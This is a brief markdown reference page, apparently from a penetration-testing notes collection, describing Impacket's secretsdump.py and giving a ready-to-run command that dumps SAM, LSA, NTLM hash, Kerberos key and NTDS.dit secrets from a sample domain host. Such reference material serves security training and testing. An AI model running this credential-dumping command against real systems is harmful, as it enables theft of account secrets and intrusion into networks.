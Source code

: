 ```yaml
---
description: Retrieve User Account's Synced Password Hashes
---
```


# Impacket's secretsdump.py

### Introduction

Impacket’s secretsdump.py will perform various techniques to dump secrets from the remote machine without executing any agent. Techniques include reading SAM and LSA secrets from registries, dumping NTLM hashes, plaintext credentials, and kerberos keys, and dumping NTDS.dit.

***

### Command Reference:

```
Target IP: 10.10.10.1

Domain: test.local

Username: john

Password: password123
```

***

#### Command:

```bash
python3 secretsdump.py test.local/john:password123@10.10.10.1
```

***
